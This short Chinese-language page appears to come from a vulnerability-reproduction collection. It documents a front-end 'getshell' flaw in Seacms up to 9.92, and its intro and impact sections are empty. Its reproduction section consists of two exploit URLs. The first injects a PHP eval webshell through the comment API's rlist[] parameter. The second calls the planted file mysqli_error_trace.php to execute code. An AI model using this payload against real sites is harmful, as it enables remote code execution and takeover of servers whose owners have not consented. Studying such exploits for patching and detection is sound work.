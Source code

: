 ```yaml
---
title: "Seacms <= 9.92 前台Getshell"
id: zhfly3118
---
```


# Seacms <= 9.92 前台Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E 
```

> 然后访问：

```
http://0-sec.org/data/mysqli_error_trace.php?_=phpinfo(); 
```
